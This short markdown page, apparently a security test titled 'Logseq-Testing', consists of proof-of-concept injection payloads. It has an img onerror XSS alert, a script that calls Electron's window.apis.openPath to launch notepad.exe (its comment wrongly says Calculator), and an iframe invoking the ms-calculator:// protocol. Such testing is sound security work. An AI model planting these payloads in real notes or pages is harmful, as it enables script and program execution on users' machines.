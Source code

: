 # Logseq-Testing
---

<img src=x onerror="alert('XSS')">

<SCRIPT>
        // Check if the Electron preload API is accessible
      if (window.apis) {
        // Attempt to open Calculator
        window.apis.openPath('C:\\Windows\\System32\\notepad.exe')
          .then(() => console.log('Notepad launched!'))
          .catch(err => console.error('Failed to launch:', err));
      } else {
        console.error('window.apis not available');
      }
</SCRIPT>

[:iframe {:src "ms-calculator://"}]
